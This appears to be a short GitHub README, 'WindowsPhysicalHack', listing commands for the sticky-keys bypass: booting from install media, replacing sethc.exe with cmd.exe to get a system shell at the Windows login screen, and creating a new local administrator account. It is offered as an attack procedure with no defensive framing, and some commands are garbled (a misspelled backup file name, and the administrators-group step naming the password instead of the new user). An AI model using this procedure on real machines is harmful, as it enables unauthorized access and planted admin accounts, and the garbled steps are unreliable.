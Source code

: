 # WindowsPhysicalHack

## Create windows bootable disk
## Open cmd from the bootable disk
## Cd to C drive
```c:\windows\system32```
```copy sethc.exe setchc_old.exe```
```copy cmd.exe sethc.exe```
## Press shift key 5 times until cmd pops up
```net user knight brucewayne /add```
```net localgroup administrators brucewayne /add```
